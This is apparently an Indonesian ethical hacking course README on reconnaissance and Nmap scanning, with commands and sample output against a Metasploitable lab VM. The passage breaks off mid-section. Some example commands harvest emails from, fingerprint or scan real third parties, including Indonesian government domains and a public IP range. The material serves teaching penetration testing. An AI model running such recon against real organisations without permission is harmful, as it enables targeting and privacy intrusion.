






# Belajar Ethical Hacking

## 1. Pendahuluan

Ethical hacking adalah proses untuk mengidentifikasi dan memperbaiki kelemahan keamanan dalam sistem komputer, jaringan, dan aplikasi. Ethical hacking dilakukan dengan izin dari pemilik sistem dan bertujuan untuk melindungi data sensitif dan meningkatkan keamanan sistem. 

Dalam ethical hacking, ethical hacker menggunakan metode yang sama dengan hacker jahat, tetapi dengan niat yang berbeda. Ethical hacker harus memiliki sertifikasi, seperti CEH (_Certified Ethical Hacker_), untuk memastikan kompetensi mereka.

Ethical hacker wajib mengikuti aturan tertentu, termasuk menjaga kerahasiaan informasi yang ditemukan selama proses hacking. 

Tahapan ethical hacking secara umum adalah:
1.  __Reconnaissance / Information Gathering__: Mengumpulkan informasi tentang target.
2.  __Scanning__: Menemukan kelemahan keamanan dalam sistem target. Scanning sebenarnya masih termasuk ke dalam _information gathering_, akan tetapi informasi yang dikumpulkan lebih bersifat private (scanning hanya boleh dilakukan bila sudah mendapat ijin dari pemilik sistem). 
3. __Vulnerability Analysis__: yaitu  proses untuk mengidentifikasi, menganalisis, dan mengelompokkan tingkat risiko kerentanan/kelemahan pada sistem target.
4. __Exploitation__: Mengeksploitasi kelemahan keamanan untuk mendapatkan akses ke sistem target.
5. __Maintaining Access__: Mempertahankan akses ke sistem target.
6. __Covering Tracks__: Menghapus jejak aktivitas ethical hacker.

### Peran Ethical Hacking untuk Perusahaan/Instansi

Jasa ethical hacker dapat meningkatkan tingkat keamanan siber mereka secara signifikan. Berikut adalah beberapa peran penting yang dimainkan oleh ethical hacking dalam sebuah organisasi:

1. __Membangun Security Awareness__ : Salah satu manfaat utama dari ethical hacking adalah meningkatkan kesadaran keamanan di antara karyawan dan pihak internal perusahaan. Dengan adanya tes penetrasi dan simulasi serangan, perusahaan bisa mengetahui potensi kelemahan dalam infrastruktur keamanan mereka dan memberikan pelatihan kepada tim internal untuk menghadapinya.

2. __Menemukan Celah atau Kelemahan Keamanan__ : Ethical hacker dilatih untuk berpikir seperti seorang penyerang. Mereka mencari dan menemukan celah keamanan yang mungkin tidak terdeteksi oleh alat keamanan tradisional. Misalnya, mereka bisa menemukan kesalahan dalam konfigurasi jaringan atau perangkat lunak yang bisa dimanfaatkan oleh peretas jahat. Dengan temuan ini, perusahaan dapat memperbaiki sistem sebelum celah tersebut dieksploitasi.

3. __Membantu Kesiapan Keamanan Sistem__ : Dengan melakukan tes penetrasi secara berkala, ethical hacking membantu perusahaan mempersiapkan diri menghadapi potensi serangan siber. Ini bukan hanya soal memperbaiki kelemahan, tetapi juga tentang membangun resiliensi dan memastikan bahwa sistem keamanan perusahaan selalu up-to-date.

### Skill yang Dibutuhkan Ethical Hacking

Menjadi seorang ethical hacker memerlukan keterampilan teknis yang mendalam serta pemahaman tentang banyak aspek keamanan siber. Berikut adalah beberapa skill penting yang harus dimiliki oleh seorang ethical hacker:

1. __Programming__.
Seorang ethical hacker perlu memiliki pengetahuan yang baik tentang programming. Ini karena mereka harus mampu memahami kode dan menemukan kelemahan yang mungkin ada di dalamnya. Bahasa pemrograman seperti Python, C, C++, Java, dan Perl sering digunakan dalam ethical hacking.

2. __Jaringan Komputer__.
Pemahaman mendalam tentang jaringan komputer sangat penting bagi seorang ethical hacker. Mereka harus tahu bagaimana jaringan berfungsi, bagaimana paket data ditransfer, dan bagaimana serangan bisa dilakukan pada infrastruktur jaringan. Pengetahuan tentang protokol seperti TCP/IP, DNS, dan DHCP sangat penting dalam bidang ini.

3. __Database__.
Database menyimpan banyak informasi sensitif, dan seorang ethical hacker harus mampu mengeksplorasi dan menemukan kelemahan dalam sistem database. Mereka perlu memahami SQL serta cara melindungi database dari serangan injeksi SQL atau akses tidak sah.

4. __Hacking Tools__.
Seorang ethical hacker harus menguasai berbagai hacking tools yang digunakan untuk melakukan tes penetrasi dan evaluasi keamanan. Tools populer yang sering digunakan dalam ethical hacking antara lain Kali Linux, Metasploit, Nmap, dan Wireshark.

5. __Pengetahuan tentang Script__.
Kemampuan untuk menulis dan memahami script juga penting bagi ethical hacker. Dengan script, mereka dapat mengotomatisasi serangan atau tes penetrasi tertentu, yang dapat membantu mereka menemukan kelemahan keamanan dengan lebih efisien.

### Peraturan dan Etika dalam Ethical Hacking

Meski ethical hacking adalah praktik legal dan bermanfaat, ada sejumlah aturan dan etika yang harus dipatuhi oleh para ethical hacker. Hal ini penting untuk memastikan bahwa kegiatan mereka tidak melanggar hukum atau merugikan pihak lain.

1. __Izin yang Sah__.
Seorang ethical hacker hanya boleh melakukan tes penetrasi atau simulasi serangan dengan izin yang sah dari pemilik sistem atau jaringan. Tanpa izin, kegiatan hacking tersebut bisa dianggap ilegal.

2. __Batasan yang Jelas__.
Setiap pekerjaan ethical hacking harus memiliki batasan yang jelas, termasuk tentang area mana yang boleh diuji dan metode apa yang boleh digunakan. Ini penting untuk memastikan bahwa tindakan mereka tidak menyebabkan kerusakan yang tidak disengaja pada sistem.

3. __Kerahasiaan dan Privasi__.
Ethical hacker harus menjaga kerahasiaan data yang mereka akses selama proses hacking. Mereka tidak boleh menyebarkan informasi sensitif atau memanfaatkannya untuk keuntungan pribadi.

4. __Tanggung Jawab Profesional__.
Seorang ethical hacker harus bertindak secara profesional dan bertanggung jawab. Mereka harus melaporkan temuan dengan jujur dan memberikan saran yang tepat untuk memperbaiki kelemahan yang ditemukan.

5. __Melaporkan Temuan dengan Jujur__.
Setiap temuan yang didapatkan selama proses ethical hacking harus dilaporkan dengan jujur kepada pemilik sistem. Ini termasuk segala jenis kelemahan atau celah keamanan yang bisa dieksploitasi oleh peretas jahat.

### Sertifikasi Ethical Hacking
Untuk menjadi seorang ethical hacker yang diakui, ada beberapa sertifikasi yang bisa diambil. Sertifikasi ini menunjukkan bahwa seseorang memiliki keterampilan dan pengetahuan yang diperlukan untuk melakukan pekerjaan ethical hacking secara profesional.

* __Certified Network Defender (CND)__
Sertifikasi ini dirancang untuk individu yang ingin melindungi, mendeteksi, dan merespon ancaman jaringan. CND memfokuskan pada keamanan jaringan dan cara mempertahankannya dari serangan siber.

* __Certified Ethical Hacker (CEH)__
Certified Ethical Hacker adalah salah satu sertifikasi paling populer di bidang ethical hacking. Sertifikasi ini menunjukkan bahwa seseorang memiliki keterampilan untuk melakukan tes penetrasi dan mengevaluasi keamanan sistem komputer.

* __C-Council Certified Security Analyst (ECSA)__
Sertifikasi ECSA lebih lanjut dari CEH dan memfokuskan pada kemampuan analisis keamanan serta pengetahuan mendalam tentang jaringan, sistem, dan aplikasi.

### Video Tutorial Youtube

[](https://www.youtube.com/watch?v=ckRXWKFGKzA&list=PLGpswQpApOmNQDKPqCpDT8qXdjY-yucDm&index=1)

### Hacking Lab

Pada course ini kita membutuhkan tool untuk membangun Hacking Lab:

* [VirtualBox](https://www.virtualbox.org/): Digunakan sebagai mesin virtualisasi untuk menginstal sistem operasi. Virtualbox dapat diganti dengan mesin virtual lainnya seperti VMWare dll.
* [Kali Linux](https://www.kali.org/): Sistem operasi berbasis Linux yang didesain untuk bisa melakukan kegiatan Ethical Hacking.
* [Metasploitable](https://docs.rapid7.com/metasploit/metasploitable-2/): Vurnerability manchine sebagai mesin target serangan.
* Windows 7 sebagai mesin target.

### Tool
1. __Reconnaissance (_Information Gathering_)__ / Mengumpulkan informasi
    * Whois
    * Whatweb
    * theHarvester
    * Hunter.io
    * Sherlok
2. __Scanning__
    * Netdiscover
    * Nmap
3. __Vulnerability Analisis__
    * Nmap
    * Searchsploit
    * Nessus
4. __Exploitation__
    * Metasploit Framework

### Kebutuhan Dasar

Sebelum memulai course ini beberapa kebutuhan yang wajib sudah dipahami:

* Perintah dasar linux.
* Jaringan Komputer dasar.

## Referensi
* [https://bif.telkomuniversity.ac.id/](https://bif.telkomuniversity.ac.id/apa-itu-ethical-hacking-dan-bagaimana-menjadi-seorang-ethical-hacker/#:~:text=Ethical%20hacking%20adalah%20proses%20di,bisa%20dimanfaatkan%20oleh%20penyerang%20jahat.) - Apa Itu Ethical Hacking dan Bagaimana Menjadi Seorang Ethical Hacker?

## 2. Reconnaissance /  Information Gathering

Reconnaissance / Information Gathering adalah kegiatan mengumpulkan informasi tentang target. Informasi yang dikumpulkan bisa berupa ip address, username, email, teknologi, OS, informasi suatu website dll. Information Gathering pada umumnya bersifat legal karena informasi yang dibutuhkan masih bersifat public.

Information Gathering terbagi 2:

1. Active Information Gathering: Mengumpulkan informasi dengan berinteraksi langsung dengan target. Bisa juga dilakukan dengan orangnya untuk mendapatkan informasi (Social Engineering).
2. Pasive Information Gathering: Mengumpulkan infomasi melalui pihak ketiga, misal menggunakan search engine seperti google, yahoo dll. untuk mendapatkan informasi target.

### Ping

Ping adalah perintah atau utilitas baris perintah yang digunakan untuk memeriksa koneksi jaringan antara dua perangkat yang terhubung melalui jaringan IP. Ping juga dapat diartikan sebagai pengukuran latensi, yaitu waktu yang dibutuhkan untuk mengirimkan dan menerima data dari perangkat ke server dan kembali lagi.

```bash
ping google.com
```

Terkadang output adalah IPv6 versi untuk menampilkan output ip address versi 4

```bash
ping google.com -4
```

### Nslookup

Nslookup adalah perintah atau perangkat lunak yang digunakan untuk mengambil informasi tentang Domain Name System (DNS). Nslookup bisa digunakan untuk: 
* Mencari informasi tentang alamat IP yang terkait dengan nama domain 
* Mencari nama domain yang terkait dengan alamat IP 
* Mencari server yang mengelola domain 
* Memeriksa konfigurasi DNS server 
* Memeriksa jenis record DNS yang terkait dengan domain atau alamat IP 
* Mengidentifikasi masalah koneksi jaringan atau DNS 
* Memeriksa apakah domain name resolution berhasil atau tidak

```bash
nslookup dpr.go.id
```

### Menggunakan Website pihak ketiga

Beberapa website Pasive Information Gathering seperti [https://ip-checker.info/](https://ip-checker.info/)


### Whois

Whois adalah tools yang menyediakan informasi tentang domain, seperti: Nama domain, Nama server, Tanggal pembuatan, Tanggal kedaluwarsa, Informasi kontak pemilik domain

```bash
whois google.com
```

### Whatweb

Melihat informasi suatu website, baik berupa plugin web yang digunakan plugin dll.:

```bash
whatweb instagram.com -v
```

Melakukan scan berdasarkan rentan IP address:

```bash
whatweb 103.245.72.0-103.245.72.255 -v
```

Melakukan scan dan menyimpan hasilnya ke dalam file:

```bash
whatweb facebook.com -v --log-verbose=output.txt
```

### Scan email dengan theHarvester

theHarvester adalah tool untuk mencari alamat email berdasarkan domain yang berasal dari search engine yang disupport. Perintah untuk mencari email berdasarkan domain

```bash
theHarvester -d untad.ac.id -b all 
```

Mencari email dengan domain untad.ac.id, di yahoo

```bash
theHarvester -d kejaksaan.go.id -b yahoo
```

Mencari email dengan domain untad.ac.id, di yahoo dengan jumlah limit 10.

```bash
theHarvester -d kejaksaan.go.id -b yahoo -l 10
```

### Scan email dengan hunter.io

Selain menggunakan tools seperti di atas, scan email bisa juga menggunakan website pihak ketiga seperti [https://hunter.io/](https://hunter.io/).

### Melacak username sosial media dengan Sherlock

Sharelock adalah tool yang digunakan untuk melacak akun media sosial dengan menggunakan username. Misal kita bisa melacak username akun facebook untuk melacak username akun-akun sosial media yang lain.

Download dan install [Sherlock](https://github.com/sherlock-project/sherlock).

```bash
sherlock username
```
 
mencari username lebih dari satu

```bash
sherlock user1 user2 user3
```

memasukan timeout pencarian setiap website, default 60 second, contoh kita masukan timeout 5 second.

```bash
sherlock username --timeout 5
```

menampilkan list website yang ditracking

```bash
sherlock username --timeout 5 --print-all
```

menyimpan output result ke dalam file

```bash
sherlock username --timeout 5 --print-all --output output.txt
```

## 3. Scanning

Scaning merupakan proses mengumpulkan informasi yang bersifat private, yang seharusnya dilakukan atas ijin pemilik sistem.

### Tools

Kita membutuhkan vulnerability manchine untuk latihan sebagai target serangan, berikut manchine tool yang digunakan:

* [Metasploitable](https://docs.rapid7.com/metasploit/metasploitable-2/) (contoh ip target 192.168.1.32)

### netdiscover

Netdiscover merupakan tool untuk melakukan scan ipaddress dalam suatu network

```bash
sudo netdiscover -r 192.168.1.0/24
```

output

```bash
Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                                                                             
                                                                                                                                                                                                                                           
 6 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 540                                                                                                                                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
                                                                            
 192.168.1.32    08:00:27:27:b4:9c      1      60  PCS Systemtechnik GmbH                                                                                                                                                                    
 192.168.1.6     7e:5d:29:8a:cc:e8      1      60  Unknown vendor                                                                                                                                                                          
 192.168.1.2     04:d6:aa:00:df:ea      1      60  SAMSUNG ELECTRO-MECHANICS(THAILAND)                                                                                                                                                     
 192.168.1.3     4c:60:ba:1e:b9:d4      1      60  Unknown vendor                                                                                                                                                                          
 192.168.1.29    b4:a5:ac:c5:9a:29      1      60  GUANGDONG OPPO MOBILE TELECOMMUNICATIONS CORP.,LTD                                                                                                                                      
 192.168.1.36    b6:96:3e:75:20:5a      1      60  Unknown vendor   
```

### Nmap

Nmap, atau Network Mapper, adalah alat pemindaian jaringan open source yang digunakan untuk mengeksplorasi dan mengaudit keamanan jaringan:
* Menemukan perangkat yang terhubung ke jaringan
* Menemukan port yang terbuka di perangkat tersebut
* Mengidentifikasi informasi lebih lengkap dari perangkat dan jaringan yang dipindai
* Mendeteksi dan memperbaiki kerentanan sejak dini
* Memantau aktivitas jaringan secara real-time 

Nmap memiliki berbagai fitur, di antaranya: 

* Pemindaian IP raw untuk mendapatkan informasi yang lebih detail tentang port dan layanan yang aktif 
* Pemindaian port untuk menentukan status port-port tersebut 
* Deteksi sistem operasi dengan menganalisis respons dari target 
* Nmap Scripting Engine (NSE) untuk menjalankan skrip khusus selama pemindaian 
* Host discovery untuk memeriksa dan mendeteksi keberadaan host di sebuah jaringan 

> Baca Juga: [https://nmap.org/man/id/index.html](https://nmap.org/man/id/index.html)

__Scanning ip__

```bash
$ nmap -sn 192.168.1.0/24

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 20:45 +08
Nmap scan report for 192.168.1.2 (192.168.1.2)
Host is up (0.049s latency).
MAC Address: 04:D6:AA:00:DF:EA (Samsung Electro-mechanics(Thailand))
Nmap scan report for 192.168.1.3 (192.168.1.3)
Host is up (0.097s latency).
MAC Address: 4C:60:BA:1E:B9:D4 (Unknown)
Nmap scan report for 192.168.1.4 (192.168.1.4)
Host is up (0.14s latency).
MAC Address: EE:B8:E5:79:42:04 (Unknown)
Nmap scan report for 192.168.1.6 (192.168.1.6)
Host is up (0.064s latency).
MAC Address: 7E:5D:29:8A:CC:E8 (Unknown)
Nmap scan report for 192.168.1.11 (192.168.1.11)
Host is up (0.12s latency).
MAC Address: D6:9B:B0:C2:FB:9C (Unknown)
Nmap scan report for 192.168.1.15 (192.168.1.15)
Host is up (1.7s latency).
MAC Address: 56:26:56:08:45:85 (Unknown)
Nmap scan report for 192.168.1.21 (192.168.1.21)
Host is up (0.22s latency).
MAC Address: 8E:91:48:50:92:52 (Unknown)
Nmap scan report for 192.168.1.23 (192.168.1.23)
Host is up (0.072s latency).
MAC Address: B4:A5:AC:C1:6A:7B (Guangdong Oppo Mobile Telecommunications)
Nmap scan report for 192.168.1.27 (192.168.1.27)
Host is up (0.19s latency).
MAC Address: 72:27:0F:4E:CB:18 (Unknown)
Nmap scan report for 192.168.1.32 (192.168.1.32)
Host is up (0.00023s latency).
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.1.34 (192.168.1.34)
Host is up (0.00025s latency).
MAC Address: 9C:6B:00:56:78:0F (Unknown)
Nmap scan report for 192.168.1.18 (192.168.1.18)
Host is up.
Nmap done: 256 IP addresses (14 hosts up) scanned in 19.92 seconds
```

Jika ingin melihat debug message tambahkan opsi `-d`.

__Scanning port target__

Melakukan port scanning target Metasploitable

```bash
$ nmap 192.168.1.32

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 20:38 +08
Nmap scan report for 192.168.1.32 (192.168.1.32)
Host is up (0.0085s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.63 seconds
```

__Melakukan port scanning semua perangkat dalam LAN (ex. 192.168.1.0/24).__

```bash
nmap 192.168.1.0/24
```

__Scanning perangkat yang sedang aktif__

```bash
nmap -sn 192.168.1.0/24

tarting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 15:56 +08
Nmap scan report for gpon.net (192.168.1.1)
Host is up (0.0028s latency).
MAC Address: EC:F0:FE:8A:AB:0E (zte)
Nmap scan report for 192.168.1.2 (192.168.1.2)
Host is up (0.075s latency).
MAC Address: 04:D6:AA:00:DF:EA (Samsung Electro-mechanics(Thailand))
Nmap scan report for 192.168.1.3 (192.168.1.3)
Host is up (0.091s latency).
MAC Address: 4C:60:BA:1E:B9:D4 (Unknown)
Nmap scan report for 192.168.1.6 (192.168.1.6)
Host is up (1.6s latency).
MAC Address: 7E:5D:29:8A:CC:E8 (Unknown)
Nmap scan report for 192.168.1.8 (192.168.1.8)
Host is up (0.20s latency).
MAC Address: EE:67:13:C8:D6:66 (Unknown)
Nmap scan report for 192.168.1.14 (192.168.1.14)
Host is up (0.88s latency).
MAC Address: FC:A5:D0:98:FA:41 (Guangdong Oppo Mobile Telecommunications)
Nmap scan report for 192.168.1.19 (192.168.1.19)
Host is up (0.19s latency).
MAC Address: FA:6E:18:94:DA:59 (Unknown)
Nmap scan report for 192.168.1.25 (192.168.1.25)
Host is up (0.097s latency).
MAC Address: 1A:F4:EE:B9:BF:D2 (Unknown)
Nmap scan report for 192.168.1.32 (192.168.1.32)
Host is up (0.011s latency).
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.1.35 (192.168.1.35)
Host is up (0.00039s latency).
MAC Address: 9C:6B:00:56:78:0F (Unknown)
Nmap scan report for 192.168.1.18 (192.168.1.18)
Host is up.
Nmap done: 256 IP addresses (11 hosts up) scanned in 46.26 seconds
```

__Scan terhadap Microsoft Windows yang memblokir nmap__

```bash
nmap -Pn 192.169.1.10
```

__Scan berdasarkan ip range__

```bash
nmap 192.168.1.0-255
```

atau

```bash
nmap 192.168.1.*
```

__Scan dari list ip yang berada dalam file__

```bash
$ cat list-ip.txt 
192.168.1.22
192.168.1.23


$ nmap -iL list-ip.txt
```

#### TCP vs UDP



__Sync Scan__

```bash
sudo nmap -sS 192.168.1.22
```

__TCP Scan__

```bash
nmap -sT 192.168.1.22
```

__UDP Scan__

```bash
nmap -sU 192.168.1.22
```

#### Scanning Sistem Operasi

```bash
$ nmap -O 192.168.1.10

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 23:01 +08
Nmap scan report for 192.168.1.10
Host is up (0.041s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT     STATE  SERVICE
53/tcp   open   domain
80/tcp   open   http
113/tcp  closed ident
443/tcp  open   https
3306/tcp open   mysql
8008/tcp open   http
Device type: general purpose
Running (JUST GUESSING): OpenBSD 4.X (87%)
OS CPE: cpe:/o:openbsd:openbsd:4.0
Aggressive OS guesses: OpenBSD 4.0 (87%), OpenBSD 4.3 (86%)
No exact OS matches for host (test conditions non-ideal).
```

#### Scanning Service Version

```bash
$ nmap -sV 192.168.1.22

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 22:58 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.00090s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
```

Kita juga dapat mengatur intensitas dalam scanning service di nmap, adapun skala intensitasnya dari 1 - 9. Secara default intensitas yang di scan berada dalam skala 7, makin kecil scalanya makin cepat proses scannya. Berikut contoh menggunakan intersitas secara custom:

```bash
